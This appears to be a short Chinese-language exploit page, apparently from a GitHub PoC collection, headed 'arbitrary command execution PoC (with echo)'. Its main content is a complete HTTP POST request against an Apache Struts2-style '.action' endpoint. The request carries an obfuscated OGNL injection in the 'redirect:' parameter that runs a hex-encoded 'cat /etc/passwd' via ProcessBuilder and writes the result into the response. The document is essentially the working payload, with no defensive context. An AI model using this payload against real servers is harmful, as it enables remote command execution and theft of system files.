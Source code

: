 期待大佬研究出有回显的POC。

### 执行任意命令POC（有回显，将需要执行的命令进行urlencode编码）

```http
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: target:8080
Content-Length: 626
redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```



![img](assets/1670311557851-ccade477-18bc-44ad-a25b-df375eda4f33.png)
